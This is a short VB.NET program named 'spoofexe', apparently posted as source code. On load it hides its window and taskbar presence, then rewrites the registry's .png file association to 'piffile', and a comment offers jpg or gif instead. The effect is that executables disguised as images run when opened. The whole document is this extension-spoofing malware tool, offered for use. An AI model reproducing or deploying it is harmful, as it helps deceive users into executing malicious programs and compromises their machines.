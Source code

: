 # spoofexe
Imports Microsoft.Win32
'write by flagellantX
Public Class Form1
    Public Hallajkeys As String
    Private Sub Form1_Load(sender As Object, e As EventArgs) Handles MyBase.Load
        Me.Hide()
        Me.ShowIcon = 0
        Me.ShowInTaskbar = 0
        Dim Gozaro As RegistryKey = Registry.ClassesRoot.CreateSubKey(".png") 'you can change to jpg and Gif
        Gozaro.SetValue(Hallajkeys, "piffile")
        End
    End Sub
End Class
